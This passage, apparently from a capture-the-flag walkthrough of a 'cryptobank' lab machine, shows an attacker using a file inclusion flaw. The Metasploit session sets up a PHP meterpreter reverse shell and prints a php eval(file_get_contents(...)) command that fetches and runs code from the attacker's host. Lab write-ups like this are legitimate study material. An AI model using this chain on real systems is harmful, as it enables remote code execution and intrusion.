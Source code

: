 The tools directory is quite interesting, we can do a lot of things here, but all the malicious activities are blocked by a firewall installed on the website. I had a look around these tools. ‘Execute a command’ requires another username and password which we don't have, ‘Upload a file’ seems to only accept image files (atleast without trying to hack it anyway). ‘View a system file’ seems more interesting though.

<center><br>
<img src="/assets/img/uploads/cryptobank/tools.png">
</center>

We can exploit the file inclusion vulnerability using metasploit.

```r
msf5 > use multi/script/web_delivery
msf5 exploit(multi/script/web_delivery) > set target PHP
target => PHP
msf5 exploit(multi/script/web_delivery) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf5 exploit(multi/script/web_delivery) > set LHOST 192.168.1.8
LHOST => 192.168.1.8
msf5 exploit(multi/script/web_delivery) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 192.168.1.8:4444
[*] Using URL: http://0.0.0.0:8080/iBnAGZRl
[*] Local IP: http://192.168.1.8:8080/iBnAGZRl
[*] Server started.
[*] Run the following command on the target machine:
php -d allow_url_fopen=true -r "eval(file_get_contents('http://192.168.1.8:8080/iBnAGZRl', false, stream_context_create(['ssl'=>['verify_peer'=>false,'verify_peer_nam
e'=>false]])));"
```

We got a payload, now we need to run the file on our target machine. Just paste the location of the payload in the url.

<center><br>